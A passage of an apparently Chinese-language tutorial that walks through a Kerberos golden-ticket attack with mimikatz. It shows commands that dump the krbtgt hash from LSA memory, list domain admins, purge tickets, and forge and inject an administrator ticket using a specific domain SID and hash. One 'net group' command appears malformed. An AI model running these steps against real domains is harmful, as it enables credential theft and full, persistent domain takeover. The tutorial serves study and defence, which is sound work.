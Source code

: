 ```javascript
whoami /all
```

3、获取域的KRBTGT账户NTLM密码哈希或者aes-256值

用mimikatz也可以直接拿到SID和krbtgt的NTML hash

```javascript
privilege::debug
lsadump::lsa /patch
```

![image-20230222184025872](images/2.png)

这里没有再去配置环境，直接用了网上的图

```javascript
net group "domain admins" /admin  //查看域管理员
```

#### 伪造TGT

```javascript
klist purge			//清除所有票据
kerberos::purge 	//清除票据
kerberos::tgt     //查看票据
```

2、使用mimikatz伪造指定用户的票据并注入到内存

```javascript
kerberos::golden  /admin:administrator  /domain:zz.com  /sid:S-1-5-21-1373374443-4003574425-2823219550  /krbtgt:9f3af6256e86408cb31169871fb36e60  /ptt
```

/admin：需要伪装的域管理员用户

/domain：域名称

/sid：域SID值
